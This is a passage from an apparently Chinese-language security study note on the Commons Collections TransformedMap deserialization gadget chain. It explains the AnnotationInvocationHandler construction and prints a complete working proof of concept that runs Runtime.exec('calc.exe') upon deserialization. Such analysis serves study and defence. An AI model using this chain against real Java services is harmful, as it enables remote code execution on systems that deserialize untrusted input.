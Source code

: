 ![](2021-12-26-20-36-38.png)
在分析var6的来源,其值其实是循环读取memberValues中数组的键名,那么var7不为空的条件即是`Class var7 = (Class)map.get("value") `,也就是我们构造InvocationHanlder时传入的memberValues Map中要有一个键为`value`的键值对,而第一个参数则是Retention注解类,最后的构造如下:
```java
Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
```
### 完整POC
```java
public class test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0]
                }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```
调用栈如下: